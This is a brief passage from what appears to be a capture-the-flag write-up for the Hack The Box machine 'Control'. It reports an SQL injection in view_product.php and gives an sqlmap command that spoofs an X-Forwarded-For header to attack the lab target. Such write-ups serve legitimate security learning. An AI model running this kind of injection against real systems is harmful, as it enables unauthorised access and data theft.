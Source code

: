 ![](/assets/images/htb-writeup-control/admin.png)

## SQL injection

There's an SQL injection vulnerability in the `view_product.php` page that can easily be exploited with sqlmap:

`sqlmap -H "X-Forwarded-For: 192.168.4.28" -u "http://10.10.10.167/view_product.php" --data "productId=69" --proxy=http://127.0.0.1:8080 --random-agent`

![](/assets/images/htb-writeup-control/sqlmap1.png)
